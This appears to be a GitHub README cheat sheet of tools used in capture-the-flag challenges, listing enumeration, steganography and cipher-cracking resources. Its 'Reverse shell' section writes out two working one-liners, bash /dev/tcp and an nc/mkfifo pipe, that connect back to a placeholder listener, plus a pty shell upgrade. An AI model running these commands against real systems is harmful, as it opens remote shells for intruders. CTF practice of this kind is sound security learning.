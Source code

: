 # Tools and resources I have used on CTF's and Challenges

## Enumerating
### Linux
* LinEnum: https://github.com/rebootuser/LinEnum
* linprivesc: 

## Steganography
### MP3
* Spectrum analyzer: https://academo.org/demos/spectrum-analyzer/

### Images
* ImageStegano Tool: https://github.com/varunon9/Image-Stegano
  * check bit planes
* steghide

## Crypto
### Cipher cracking
* Vigenère
  * https://f00l.de/hacking/vigenere.php
  * http://simonsingh.net/The_Black_Chamber/vigenere_cracking_tool.html
* Caesar
  * https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
  
## Reverse shell
### 1 - S: bash ; C: nc
* Server: bash -i >& /dev/tcp/LISTENING-IP/LISTENING-PORT 0>&1
* Client: nc -nlvp LISTENING-PORT

### 2 - S: nc ; C: nc
* Server: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTENING-IP LISTENING-PORT >/tmp/f
* Client: nc -nlvp LISTENING-PORT

## Decent shell:
```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
$ python shell.py
```
## sudo tips
> sudo -u username command
to run 'command' as 'username'

